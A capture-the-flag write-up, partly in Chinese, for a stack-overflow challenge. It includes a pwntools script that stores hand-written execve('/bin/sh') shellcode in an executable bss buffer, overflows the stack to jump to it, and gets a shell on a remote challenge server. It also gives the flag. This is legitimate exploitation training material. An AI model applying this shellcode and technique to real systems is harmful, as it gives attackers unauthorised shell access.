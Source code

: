 
# UMCTF2021 - shellcode

- Write-Up Author: aYoung \[[Merak天璇 20级](https://we.buptmerak.cn/)\]

- Flag:MOCSCTF{f1nd_7h3_w4y_70_y0ur_5h3llc0d3@merak}

## **Question:**
shellcode
[shellcode](./bin/pwn_64)
## Write up

---
第二次输入时存在栈溢出  
同时发现name变量位于bss段  
检查保护机制，发现nx没开  
同时通过vmmap可以看到bss段可读可写可执行  
所以可以第一次输入shellcode，第二次通过栈溢出返回到bss段上来执行shellcode 这里shellcode的长度有所限制，需要小于32字节。直接使用pwntools生成的shellcode44字节无法使用
![img](./1.png)
```python
from pwn import*
context(os='linux', arch='amd64', log_level='debug')
#r = process('./bin/pwn_64')
r=remote("52.175.52.175","39006")
shellcode = asm(
'''
xor 	rsi,	rsi			
push	rsi				
mov 	rdi,	0x68732f2f6e69622f	 
push	rdi
push	rsp		
pop	rdi				
mov 	al,	59			
cdq					
syscall
'''
)

r.recvuntil("what's your name?")
r.sendline(shellcode)
r.recvuntil("what do you want?")
payload = b'a'*0x30 + p64(0x0400737) + p64(0x06010A0)
r.send(payload)
r.interactive()
```